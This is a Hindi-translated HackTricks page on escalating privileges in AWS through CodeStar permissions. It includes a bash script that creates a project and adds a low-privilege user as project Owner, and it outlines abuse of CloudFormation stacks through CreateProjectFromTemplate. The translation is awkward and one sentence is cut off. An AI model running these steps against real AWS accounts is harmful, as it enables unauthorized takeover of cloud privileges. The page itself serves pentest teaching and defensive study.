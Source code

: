 # AWS - Codestar Privesc

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों** या **मुझे** ट्विटर पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## Codestar

आप codestar के बारे में अधिक जानकारी यहां पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप एक codestar IAM भूमिका का दुरुपयोग करके एक **आर्बिट्रे कार्रवाई** कर सकते हैं एक **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से। निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

इस तकनीक में `codestar:CreateProject` का उपयोग करके एक codestar परियोजना बनाई जाती है, और `codestar:AssociateTeamMember` का उपयोग करके ए
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **परियोजना के सदस्य** हैं, तो आप **`codestar:UpdateTeamMember`** अनुमति का उपयोग करके अपनी भूमिका को स्वामी के रूप में अपडेट कर सकते हैं इसके बजाय `codestar:AssociateTeamMember`

**संभावित प्रभाव:** codestar नीति में उन्नयन। आप उस नीति का उदाहरण निम्नलिखित में ढूंढ सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. एक नई परियोजना बनाने के लिए **`codestar:CreateProjectFromTemplate`** का उपयोग करें।
1. आपको उस स्टैक पर **`cloudformation:UpdateStack`** उपयोग करने की अनुमति मिलेगी जिसमें "CodeStarWorker-\<परियोजना का नाम>-CloudFormation" IAM भूमिका पास की गई हो।
2. CloudFormation अनुमतियों का उपयोग अपनी पसंद के CloudFormation टेम्पलेट के साथ लक्षित स्टैक को अपडेट करने के लिए करें।
1. अपडेट करने की आवश्यकता वाले स्टैक का नाम "awscodestar-\<परियोजना का नाम>-infrastructure" या "awscodestar-\<परियोजना का नाम>-lambda" होगा, इस पर निर्भर करेगा कि कौन सा टेम्पलेट उपयोग किया जाता है (उदाहरण उत्पादन स्क्रिप्ट में, कम से कम)।

इस बिंदु पर, अब आपके पास **CloudFormation IAM भूमिका** को प्रदान की गई अनुमतियों का **पूरा उपयोग** होगा। इसके साथ आप पूर्ण प्रशासक नहीं प्राप्त कर पाएंगे; आपको इसके लिए वात्सल्यजनक रूप से अनुकूलित असंगठित संसाधनों की आवश्यकता होगी जो आपको इसे करने में मदद करेंगे।

अधिक जानकारी के लिए मूल अनुसंधान देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)।\
आप इस उत्पादन में उत्पादन को [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py) में पाएंगे

**संभावित प्रभाव:** क्लाउडफॉर्मेशन IAM भूमिका में उन्नयन।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में सबमिट करके।**

</details>
